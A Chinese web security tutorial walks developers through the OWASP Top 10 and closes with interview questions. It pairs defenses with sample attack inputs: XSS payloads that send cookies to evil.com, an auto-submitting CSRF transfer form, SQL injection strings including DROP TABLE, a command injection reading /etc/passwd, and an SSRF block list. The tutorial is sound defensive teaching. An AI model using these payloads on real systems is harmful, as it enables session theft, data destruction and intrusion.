







## 引言

Web 安全是每一位开发者都必须掌握的核心技能。随着 Web 应用的日益复杂，攻击手段也在不断演进。本文将从 OWASP Top 10 出发，系统性地解析常见的 Web 安全漏洞原理、攻击方式及防御策略，帮助开发者构建安全的 Web 应用。

## 一、OWASP Top 10 概述

OWASP（Open Web Application Security Project）发布的 Top 10 是最权威的 Web 安全风险列表。2021 年版的核心内容包括：

| 排名 | 安全风险 | 核心问题 |
|------|----------|----------|
| A01 | Broken Access Control | 访问控制失效 |
| A02 | Cryptographic Failures | 加密机制失效 |
| A03 | Injection | 注入攻击 |
| A04 | Insecure Design | 不安全设计 |
| A05 | Security Misconfiguration | 安全配置错误 |
| A06 | Vulnerable Components | 使用含已知漏洞的组件 |
| A07 | Auth Failures | 认证与识别机制失效 |
| A08 | Data Integrity Failures | 数据完整性失效 |
| A09 | Logging Failures | 日志与监控失效 |
| A10 | SSRF | 服务端请求伪造 |

### Web 安全威胁全景图



## 二、XSS（跨站脚本攻击）

### 2.1 XSS 攻击原理

XSS 攻击的本质是：**将恶意脚本注入到可信页面中执行**。攻击者利用 Web 应用对用户输入的不当处理，将恶意代码插入到页面中。

### 2.2 三种 XSS 类型

| 类型 | 存储位置 | 触发方式 | 危害程度 |
|------|----------|----------|----------|
| **反射型（Reflected）** | URL 参数 | 用户点击恶意链接 | 中等，需要诱导用户 |
| **存储型（Stored）** | 数据库 | 访问包含恶意内容的页面 | 高，影响所有访问者 |
| **DOM 型（DOM-based）** | DOM 树 | 客户端脚本处理不当 | 中等，服务端无感知 |

### 2.3 XSS 攻击流程



### 2.4 XSS 攻击示例

```javascript
// 反射型 XSS：恶意 URL
// https://example.com/search?q=<script>document.location='http://evil.com?c='+document.cookie</script>

// 存储型 XSS：恶意评论
// 用户提交评论：<script>fetch('http://evil.com/steal?c='+document.cookie)</script>
// 其他用户查看评论时，脚本自动执行

// DOM 型 XSS
// 漏洞代码：
const userInput = location.hash.substring(1);
document.getElementById('output').innerHTML = userInput; // 危险！

// 修复后：
const userInput = location.hash.substring(1);
document.getElementById('output').textContent = userInput; // 安全
```

### 2.5 XSS 防御策略

**核心原则：永远不要信任用户输入**

| 防御手段 | 说明 | 示例 |
|----------|------|------|
| **输出编码** | 将特殊字符转换为 HTML 实体 | `<` → `&lt;`, `>` → `&gt;` |
| **内容安全策略（CSP）** | 限制可执行脚本的来源 | `Content-Security-Policy: default-src 'self'` |
| **HttpOnly Cookie** | 阻止 JavaScript 访问 Cookie | `Set-Cookie: session=xxx; HttpOnly` |
| **输入验证** | 白名单验证输入格式 | 只允许字母、数字 |
| **现代前端框架** | 自动转义输出 | React/Vue 默认转义 |

```java
// Java 输出编码示例
import org.owasp.encoder.Encode;

public class XssDefense {
    public String safeOutput(String userInput) {
        // HTML 上下文编码
        return Encode.forHtml(userInput);
    }
    
    public String safeHtmlAttribute(String userInput) {
        // HTML 属性编码
        return Encode.forHtmlAttribute(userInput);
    }
    
    public String safeJavaScript(String userInput) {
        // JavaScript 上下文编码
        return Encode.forJavaScript(userInput);
    }
}
```

## 三、CSRF（跨站请求伪造）

### 3.1 CSRF 攻击原理

CSRF 攻击利用的是：**用户的浏览器已经认证的状态**。攻击者诱导已登录用户访问恶意页面，该页面自动向目标网站发送请求。



### 3.2 CSRF 攻击示例

```html
<!-- 恶意网站上的 CSRF 攻击页面 -->
<html>
<body>
    <h1>You won a prize!</h1>
    <!-- 隐藏的表单自动提交 -->
    <form id="csrf" action="https://bank.com/transfer" method="POST">
        <input type="hidden" name="to" value="attacker_account">
        <input type="hidden" name="amount" value="10000">
    </form>
    <script>
        document.getElementById('csrf').submit();
    </script>
</body>
</html>
```

### 3.3 CSRF 防御策略

| 防御手段 | 原理 | 有效性 |
|----------|------|--------|
| **CSRF Token** | 每个请求携带随机 Token | ✅ 最有效 |
| **SameSite Cookie** | 限制跨站 Cookie 发送 | ✅ 现代浏览器支持 |
| **验证 Referer/Origin** | 检查请求来源 | ⚠️ 可被绕过 |
| **双重提交 Cookie** | Token 同时放在 Cookie 和请求体中 | ✅ 无状态方案 |

### 3.4 防御实现示例

```java
// 基于 Token 的 CSRF 防御
public class CsrfFilter implements Filter {
    
    @Override
    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) 
            throws IOException, ServletException {
        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) res;
        
        if ("GET".equals(request.getMethod())) {
            // GET 请求生成 Token
            String token = generateCsrfToken();
            request.getSession().setAttribute("csrf_token", token);
            chain.doFilter(req, res);
        } else {
            // POST/PUT/DELETE 请求验证 Token
            String submittedToken = request.getParameter("csrf_token");
            String sessionToken = (String) request.getSession().getAttribute("csrf_token");
            
            if (submittedToken == null || !submittedToken.equals(sessionToken)) {
                response.sendError(HttpServletResponse.SC_FORBIDDEN, "Invalid CSRF Token");
                return;
            }
            chain.doFilter(req, res);
        }
    }
}
```

```javascript
// SameSite Cookie 设置
// Set-Cookie: session_id=abc123; SameSite=Strict; Secure; HttpOnly

// SameSite 属性值：
// Strict: 所有跨站请求都不携带 Cookie（最严格）
// Lax: 仅顶级导航 GET 请求携带 Cookie（推荐）
// None: 所有请求都携带 Cookie（需要配合 Secure）
```

## 四、SQL 注入

### 4.1 SQL 注入原理

SQL 注入是由于**将用户输入直接拼接到 SQL 语句中**导致的攻击。攻击者通过构造特殊输入改变原有 SQL 逻辑。

### 4.2 攻击示例

```sql
-- 原始查询
SELECT * FROM users WHERE username = 'admin' AND password = 'user_input';

-- 恶意输入: ' OR '1'='1
-- 构造后的查询（永远为真，绕过认证）
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';

-- 更危险的输入: '; DROP TABLE users; --
SELECT * FROM users WHERE username = 'admin' AND password = ''; DROP TABLE users; --';
```

### 4.3 SQL 注入分类

| 类型 | 特点 | 利用方式 |
|------|------|----------|
| **布尔盲注** | 通过 True/False 判断 | 逐字符猜测数据 |
| **时间盲注** | 通过响应时间判断 | `SLEEP(5)` 等函数 |
| **联合查询注入** | 利用 UNION 语句 | 直接获取数据 |
| **错误回显注入** | 利用错误信息 | 构造语法错误获取信息 |

### 4.4 防御策略

**核心原则：参数化查询（预编译语句）**

```java
// ❌ 危险：字符串拼接
String sql = "SELECT * FROM users WHERE username = '" + userInput + "'";
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(sql);

// ✅ 安全：预编译语句（PreparedStatement）
String sql = "SELECT * FROM users WHERE username = ?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, userInput);
ResultSet rs = pstmt.executeQuery();

// ✅ 安全：ORM 框架（Hibernate/JPA）
@Query("SELECT u FROM User u WHERE u.username = :username")
User findByUsername(@Param("username") String username);
```



## 五、命令注入与 SSRF

### 5.1 命令注入

命令注入发生在应用程序将用户输入作为系统命令执行时。

```java
// ❌ 危险：直接执行用户输入
public String pingHost(String host) throws IOException {
    Process process = Runtime.getRuntime().exec("ping -c 4 " + host);
    // 恶意输入: 127.0.0.1; cat /etc/passwd
}

// ✅ 安全：使用参数数组，避免 shell 解析
public String pingHostSafe(String host) throws IOException {
    ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", host);
    Process process = pb.start();
}

// ✅ 更安全：白名单验证
public String pingHostValidated(String host) throws IOException {
    if (!host.matches("^[a-zA-Z0-9.-]+$")) {
        throw new IllegalArgumentException("Invalid host");
    }
    ProcessBuilder pb = new ProcessBuilder("ping", "-c", "4", host);
    Process process = pb.start();
}
```

### 5.2 SSRF（服务端请求伪造）

SSRF 攻击利用服务器发起请求的能力，访问内网资源。



**SSRF 防御策略：**

```java
public class SsrfDefense {
    // 禁止访问内网地址
    private static final Set<String> BLOCKED_PATTERNS = Set.of(
        "localhost", "127.0.0.1", "0.0.0.0",
        "10.", "172.16.", "192.168.", // 内网段
        "169.254.169.254" // 云元数据
    );
    
    public boolean isUrlSafe(String url) throws MalformedURLException {
        URL parsedUrl = new URL(url);
        String host = parsedUrl.getHost();
        
        // 检查是否在黑名单中
        for (String pattern : BLOCKED_PATTERNS) {
            if (host.startsWith(pattern) || host.equals(pattern)) {
                return false;
            }
        }
        
        // 仅允许特定协议
        return "http".equals(parsedUrl.getProtocol()) 
            || "https".equals(parsedUrl.getProtocol());
    }
}
```

## 六、点击劫持（Clickjacking）

### 6.1 攻击原理

点击劫持通过透明的 iframe 覆盖在正常页面上，诱导用户点击他们看不见的按钮。

```html
<!-- 攻击者页面 -->
<style>
    iframe {
        position: absolute;
        top: 0;
        left: 0;
        opacity: 0; /* 完全透明 */
        z-index: 1;
    }
    .visible-content {
        position: relative;
        z-index: 2;
    }
</style>

<div class="visible-content">
    <h1>点击领取奖品!</h1>
    <iframe src="https://target-site.com/delete-account"></iframe>
</div>
<!-- 用户以为在点击"领取奖品"，实际在点击"删除账户" -->
```

### 6.2 防御策略

| 防御手段 | 配置 | 效果 |
|----------|------|------|
| **X-Frame-Options** | `DENY` | 禁止所有 iframe 嵌入 |
| **X-Frame-Options** | `SAMEORIGIN` | 仅允许同源嵌入 |
| **CSP frame-ancestors** | `frame-ancestors 'none'` | 禁止嵌入（现代标准） |
| **CSP frame-ancestors** | `frame-ancestors 'self'` | 仅允许同源嵌入 |

```java
// Spring Security 配置点击劫持防护
@Configuration
public class SecurityConfig extends WebSecurityConfigurerAdapter {
    @Override
    protected void configure(HttpSecurity http) throws Exception {
        http.headers()
            .frameOptions().deny() // X-Frame-Options: DENY
            .and()
            .contentSecurityPolicy(csp -> csp
                .policyDirectives("frame-ancestors 'none'")
            );
    }
}
```

## 七、身份认证安全

### 7.1 常见认证漏洞

| 漏洞类型 | 原理 | 防御措施 |
|----------|------|----------|
| **Session 固定** | 攻击者预设 Session ID 诱使用户使用 | 登录后重新生成 Session ID |
| **暴力破解** | 枚举密码尝试登录 | 账户锁定、验证码、限流 |
| **凭证泄露** | 明文传输或存储密码 | HTTPS、哈希加盐存储 |
| **Token 劫持** | JWT Token 被窃取 | 短期有效期、Refresh Token |

### 7.2 安全密码存储

```java
// 密码存储最佳实践：bcrypt/Argon2
public class PasswordService {
    
    // 使用 BCrypt 哈希密码
    public String hashPassword(String plainPassword) {
        return BCrypt.hashpw(plainPassword, BCrypt.gensalt(12));
        // cost factor 12 = 2^12 次迭代
    }
    
    // 验证密码
    public boolean verifyPassword(String plainPassword, String hashedPassword) {
        return BCrypt.checkpw(plainPassword, hashedPassword);
    }
}
```

$$
\text{安全密码存储} = \text{哈希} + \text{盐值} + \text{慢速算法}
$$

**推荐算法：** Argon2 > bcrypt > scrypt > PBKDF2

### 7.3 多因素认证（MFA）



## 八、安全开发流程（SDL）

### 8.1 SDL 各阶段



### 8.2 各阶段安全检查清单

| 阶段 | 关键活动 | 产出物 |
|------|----------|--------|
| **需求** | 识别安全需求、合规要求 | 安全需求文档 |
| **设计** | 威胁建模、攻击面分析 | 威胁模型、安全架构 |
| **开发** | 安全编码、代码审查、SAST | 安全代码、审查报告 |
| **测试** | DAST、渗透测试、依赖扫描 | 测试报告、漏洞清单 |
| **部署** | 安全配置、密钥管理 | 部署清单、证书 |
| **运维** | 安全监控、日志分析、应急响应 | 监控告警、事件报告 |

## 九、安全测试工具

### 9.1 主流工具对比

| 工具 | 类型 | 功能 | 特点 |
|------|------|------|------|
| **OWASP ZAP** | 开源 DAST | 自动扫描、手动测试 | 免费、社区活跃 |
| **Burp Suite** | 商业 DAST | 拦截代理、扫描器、Intruder | 行业标准、功能强大 |
| **SonarQube** | SAST | 代码质量+安全扫描 | 集成 CI/CD |
| **Nikto** | 开源扫描 | Web 服务器漏洞扫描 | 快速、轻量 |
| **SQLMap** | 开源工具 | SQL 注入检测与利用 | 专注 SQL 注入 |

### 9.2 OWASP ZAP 使用示例

```bash
# 启动 ZAP 自动化扫描
docker run -t ghcr.io/zaproxy/zaproxy:stable zap-baseline.py \
    -t https://example.com \
    -r report.html

# 主动扫描
docker run -t ghcr.io/zaproxy/zaproxy:stable zap-full-scan.py \
    -t https://example.com \
    -r full-report.html

# API 扫描
docker run -t ghcr.io/zaproxy/zaproxy:stable zap-api-scan.py \
    -t https://api.example.com/openapi.json \
    -f openapi
```

## 十、安全响应头汇总

```java
// 完整的 HTTP 安全响应头配置
public class SecurityHeadersFilter implements Filter {
    @Override
    public void doFilter(ServletRequest req, ServletResponse res, FilterChain chain) 
            throws IOException, ServletException {
        HttpServletResponse response = (HttpServletResponse) res;
        
        // 强制 HTTPS
        response.setHeader("Strict-Transport-Security", 
            "max-age=31536000; includeSubDomains");
        
        // 内容安全策略
        response.setHeader("Content-Security-Policy", 
            "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'");
        
        // 防止 MIME 类型嗅探
        response.setHeader("X-Content-Type-Options", "nosniff");
        
        // 防止点击劫持
        response.setHeader("X-Frame-Options", "DENY");
        
        // 反射型 XSS 保护
        response.setHeader("X-XSS-Protection", "0"); // 现代浏览器依赖 CSP
        
        // 控制 referrer 信息
        response.setHeader("Referrer-Policy", "strict-origin-when-cross-origin");
        
        // 权限策略
        response.setHeader("Permissions-Policy", 
            "camera=(), microphone=(), geolocation=()");
        
        chain.doFilter(req, res);
    }
}
```

## 十一、面试 Q&A

### Q1: XSS 和 CSRF 有什么区别？

**A**: 
- **攻击目标**：XSS 的目标是执行恶意脚本，CSRF 的目标是伪造用户请求
- **利用方式**：XSS 利用页面渲染用户输入，CSRF 利用用户已认证的会话
- **防御重点**：XSS 防御重点是输出编码和 CSP，CSRF 防御重点是 Token 和 SameSite Cookie
- **攻击者能力**：XSS 可以窃取数据、篡改页面，CSRF 只能以用户身份执行操作

### Q2: 为什么预编译语句可以防止 SQL 注入？

**A**: 预编译语句将 SQL 语句的结构和数据分离。SQL 语句先被编译，参数后被绑定，数据库不会将参数内容解释为 SQL 代码。即使参数中包含 `; DROP TABLE` 这样的内容，也只会作为字符串值处理，不会改变 SQL 语句的逻辑结构。

### Q3: JWT Token 的安全性如何保障？

**A**: 
- **签名验证**：确保 Token 未被篡改（使用强签名算法如 HS256/RS256）
- **短期有效**：Access Token 设置较短有效期（如 15 分钟）
- **Refresh Token**：使用 Refresh Token 刷新 Access Token
- **安全存储**：不要在 localStorage 存储敏感 Token，优先使用 HttpOnly Cookie
- **撤销机制**：实现 Token 黑名单或短期有效的 Token 策略
- **HTTPS**：确保传输过程加密

### Q4: 什么是威胁建模？如何进行？

**A**: 威胁建模是系统化识别、评估和缓解安全威胁的过程。常用方法 STRIDE：
- **S**poofing（欺骗）：身份伪造
- **T**ampering（篡改）：数据修改
- **R**epudiation（抵赖）：否认操作
- **I**nformation Disclosure（信息泄露）
- **D**enial of Service（拒绝服务）
- **E**levation of Privilege（权限提升）

### Q5: SameSite Cookie 的三个值有什么区别？

**A**: 
- **Strict**：所有跨站请求都不携带 Cookie，最安全但影响用户体验（从其他站点链接过来需要重新登录）
- **Lax**：顶级导航的 GET 请求携带 Cookie，推荐值，平衡安全与体验
- **None**：所有请求都携带 Cookie，必须配合 `Secure` 属性（仅 HTTPS）

### Q6: 如何进行安全的文件上传？

**A**: 
- **验证文件类型**：检查 MIME 类型 + 文件扩展名 + 文件头（魔术数字）
- **限制文件大小**：防止拒绝服务攻击
- **重命名文件**：使用随机文件名，避免路径穿越
- **存储分离**：上传目录与执行目录分离，禁止执行上传目录中的脚本
- **病毒扫描**：对上传文件进行恶意代码扫描
- **使用 CDN/OSS**：将文件存储在独立的服务上

## 总结

Web 安全是一个持续对抗的过程。作为开发者，我们应该：

1. **永远不要信任用户输入**：所有输入都需要验证和编码
2. **遵循最小权限原则**：只授予必要的权限
3. **纵深防御**：多层防御机制，单一防御被突破仍有保护
4. **持续更新**：及时更新依赖，关注安全公告
5. **安全左移**：在开发早期就考虑安全问题，而非事后补救

安全不是一次性任务，而是需要贯穿软件开发生命周期的持续实践。